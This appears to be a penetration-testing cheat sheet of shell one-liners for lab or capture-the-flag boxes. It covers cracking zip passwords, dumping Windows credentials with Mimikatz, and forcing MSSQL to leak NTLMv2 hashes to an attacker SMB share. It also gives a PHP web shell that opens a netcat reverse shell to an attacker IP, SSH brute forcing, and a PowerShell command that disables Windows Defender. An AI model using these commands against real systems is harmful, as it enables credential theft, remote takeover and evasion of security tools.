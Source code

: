 # Cracking zip file
- `fcrackzip -v -u -D -p <wordlist> <ZIP FILE>`

# Mimikatz
`mimi.exe "privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "lsadump::sam" "exit"`

# Downloading from SMBClient
- turn prompt off using `prompt off`
- `recurse on`
- `mget *`

# Pulling down mssql NTLMv2 hash
start an smbserver and in the mssql console run `exec xp_dirtree '\\<attacker ip>\<share name>\',1,1` then check the smb server for the hash

# SMBClient
List shares: `smbclient -L \\\\<IP>\\`

Connect without a password: `smbclient --no-pass -N //<IP>/Backups`

# Mount remote share
`sudo apt install libguestfs-tools`

`sudo apt install cifs-utils`

`sudo mkdir /mnt/remote`

`mount -t cifs //<IP>/Backups /mnt/remote -o rw`

# SMBClient to shell
If you are able to access a share you can write to and that share is for a website then you can get a shell by uploading `nc.exe` to the share as well as a malicious `php` file with the following code:

```php
<?php system('nc.exe -e cmd.exe 10.10.14.12 9001') ?>
```

Go to the website and navigate to the `php` file while you have a listener running

# Run command as different user
`sudo -u <username> 'command'`

# Extract/open .img file
`binwalk -e <.img FILE>`

# Old SSH exchange key bruteforce
For old linux distributions and boxes, bruteforcing SSH with hydra might not work because of the key exchange limitations

You can use a tool called `Patator` with the following syntax

- `patator ssh_login host=<IP> port =<PORT> user=<username> password=FILE0 0=<PASSWORD FILE> persistent=0`

# Matching key exchange
`ssh -oKexAlgorithms=+diffie-hellman-group1-sha1 -oHostKeyAlgorithms=+ssh-dss`

# MSSQL
login it to mssql remotely

`sqsh -S <IP> -U sa -P <PASSWORD>`

# Disable windefend if nt\authority
`powershell.exe -c "Set-MpPreference -DisableRealtimeMonitoring $true -Verbose"`
